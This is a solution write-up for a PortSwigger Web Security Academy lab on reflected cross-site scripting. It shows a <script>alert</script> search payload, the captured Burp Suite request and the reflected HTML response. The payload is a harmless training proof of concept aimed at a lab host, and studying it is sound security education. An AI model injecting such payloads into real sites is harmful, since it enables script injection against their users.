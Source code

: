 The following is a solution to [Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded).

In the UI of the lab, enter the following payload into the search bar and click Search:
`<script>alert("howdy");</script>`

This step is demonstrated in the screenshot below:
![A screenshot of the search bar with the alert("howdy"); payload as the search term](/docs/assets/alert() poc 1.png)

As a result, an alert box appears in the UI, with the text from the alert() payload. This is demonstrated in the screenshot below:
![A screenshot of the alert box with the message "howdy"](/docs/assets/alert() poc 2.png)

The HTTP request associated with this action appears below, as pulled from the HTTP history section of the Proxy tab in Burp Suite.

~~~
GET /?search=%3Cscript%3Ealert%28%22howdy%22%29%3B%3C%2Fscript%3E HTTP/2
Host: 0ade007003023308825a84e400020013.web-security-academy.net
Cookie: [redacted]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ade007003023308825a84e400020013.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


~~~

The following is a snippet of the HTTP response to the above request.

~~~
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 4876

<!DOCTYPE html>
<html>
...
<h1>0 search results for '<script>alert("howdy");</script>'</h1>
...
~~~

This shows that the application reflected the user input inside of the response.